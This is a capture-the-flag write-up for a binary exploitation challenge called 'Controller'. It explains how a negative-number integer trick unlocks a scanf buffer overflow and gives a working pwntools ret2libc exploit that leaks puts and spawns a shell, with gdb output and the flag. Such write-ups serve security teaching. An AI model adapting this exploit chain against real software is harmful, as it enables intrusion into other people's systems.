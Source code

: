 # Controller

This was the first pwn challenge and rated as easiest difficulty in the CTF and I managed to get the first blood on it, for the time being servers were acting a bit up, so that would've been an issue for other people to submit at a reasonable time to compete for the first blood.

# Vulnerability

Running `file` and `checksec` we will get to see that the given binary is x86_64 binary and has every usual protection is off except the NX stack and Full RELRO meaning no GOT overwrite or any of the destructor routing overwrite.

```r
❯ file controller
controller: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=e5746004163bf77994992a4c4e3c04565a7ad5d6, not stripped
❯ checksec controller
[*] '/home/d4mianwayne/Pwning/CTFs/ApocalypseCTF/controller'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Opening the binary in the IDA, the `main` function was calling the `calculator` function, checking the `calculator` function, we could see:-

```C
__int64 __fastcall calculator(__int64 a1)
{
  __int64 result; // rax
  char v2[28]; // [rsp+0h] [rbp-20h] BYREF
  int v3; // [rsp+1Ch] [rbp-4h]

  v3 = calc();
  if ( v3 != 65338 )
    return calculator(a1);
  printstr("Something odd happened!\nDo you want to report the problem?\n> ");
  __isoc99_scanf("%s", v2);
  if ( v2[0] == 121 || v2[0] == 89 )
    result = printstr("Problem reported!\n");
  else
    result = printstr("Problem ingored\n");
  return result;
}
```

We have a buffee overflow vulnerability because of the `%s` specifier of the `scanf` but in order to call i, we have to make the function `calc` return the `65338` possibly from the operation it does. Checking the function `calc`:-

```r
__int64 calc()
{
  unsigned __int16 v0; // ax
  unsigned int v2; // [rsp+0h] [rbp-10h] BYREF
  unsigned int v3; // [rsp+4h] [rbp-Ch] BYREF
  int v4; // [rsp+8h] [rbp-8h]
  unsigned int v5; // [rsp+Ch] [rbp-4h]

  printstr("Insert the amount of 2 different types of recources: ");
  __isoc99_scanf("%d %d", &v3, &v2);
  v4 = menu();
  if ( (int)v3 > 69 || (int)v2 > 69 )
  {
    printstr("We cannot use these many resources at once!\n");
    exit(105);
  }
  if ( v4 == 2 )
  {
    v5 = sub(v3, v2);
    printf("%d - %d = %d\n", v3, v2, v5);
  }
  else if ( v4 > 2 )
  {
    if ( v4 == 3 )
    {
      v0 = mult(v3, v2);
      v5 = v0;
      printf("%d * %d = %d\n", v3, v2, v0);
    }
    else
    {
      if ( v4 != 4 )
        goto LABEL_15;
      v5 = (int)divi(v3, v2);
      printf("%d / %d = %d\n", v3, v2, v5);
    }
  }
  else
  {
    if ( v4 != 1 )
    {
LABEL_15:
      printstr("Invalid operation, exiting..\n");
      return v5;
    }
    v5 = add(v3, v2);
    printf("%d + %d = %d\n", v3, v2, v5);
  }
  return v5;
}
```

So, this function is used to do operations like additio, substraction, multiplication and division, also the 2 numbers we input are checked whether they are bigger than 69 or not, if yes, then call the `exit`. But the catch here is, there's no check for the negative numbers, which means we can give negative number, so giving a right negative integer we can make it happen.

# Exploitation

To exploit the binary, the usual way was to make the `calc` return `65338` and then trigger the buffer overflow vulnerability to peform a return-to-libc attack. So, first we will make the `calc` return the `65338` by giving a negative integer.


So, firstly I chose the `4295032634`, since the maximun range of the `unsigned int` data type is `4294967295`, so by basic operation:-

```py
>>> 4295032634 - 4294967295 - 1
65338

[..snip..]
p.sendlineafter(": ", "0 -4295032634")
p.sendlineafter("> ", "2")
```

Checking it in `gdb`:-

```r
gef➤  b *calculator + 16
Breakpoint 1 at 0x401076
gef➤  
gef➤  r
Starting program: /home/d4mianwayne/Pwning/CTFs/ApocalypseCTF/controller 

👾 Control Room 👾

Insert the amount of 2 different types of recources: 0 -4295032634
Choose operation:

1. ➕

2. ➖

3. ❌

4. ➗

> 2
0 - -65338 = 65338

Breakpoint 1, 0x0000000000401076 in calculator ()


[..snip..]


     0x40106a <calculator+4>   sub    rsp, 0x20
     0x40106e <calculator+8>   call   0x400f01 <calc>
     0x401073 <calculator+13>  mov    DWORD PTR [rbp-0x4], eax
 →   0x401076 <calculator+16>  cmp    DWORD PTR [rbp-0x4], 0xff3a
     0x40107d <calculator+23>  jne    0x4010f1 <calculator+139>
     0x40107f <calculator+25>  lea    rdi, [rip+0x322]        # 0x4013a8
     0x401086 <calculator+32>  call   0x400dcd <printstr>
     0x40108b <calculator+37>  lea    rax, [rbp-0x20]
     0x40108f <calculator+41>  mov    rsi, rax
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "controller", stopped 0x401076 in calculator (), reason: BREAKPOINT
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x401076 → calculator()
[#1] 0x401160 → main()
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  
gef➤  x/wx $rbp - 0x4
0x7fffffffdd0c:	0x0000ff3a
```


Now, from here, it was easy as leaking a GOT entry beforehand, then just peform the ret2libc attack, this being done, the `libc.so.6` which was ditributed along side the other challenges was same, `GLIBC-2.27ubuntu1.4`. So, from here, the exploit was straightforward:-

```py
pop_rdi = 0x00000000004011d3

payload = b"A"*40
payload += p64(pop_rdi)
payload += p64(elf.got['puts'])
payload += p64(elf.plt['puts'])
payload += p64(elf.symbols['main'])

p.sendlineafter("> ", payload)
p.recvuntil("d\n")
libc.address = u64(p.recv(6).ljust(8, b"\x00")) - libc.symbols['puts']
log.info(f"LIBC:   {hex(libc.address)}")

# Recalling the main, and again triggering the `calc` to return the 65338 as result

p.sendlineafter(": ", "0 -4295032634")
p.sendlineafter("> ", "2")
sleep(1)

payload = b"A"*40
payload += p64(0x0000000000400606)
payload += p64(pop_rdi)
payload += p64(next(libc.search(b"/bin/sh\x00")))
payload += p64(libc.symbols['system'])

p.sendlineafter("> ", payload)
p.interactive()
```

The flag was: `CHTB{1nt3g3r_0v3rfl0w_s4v3d_0ur_r3s0urc3s}`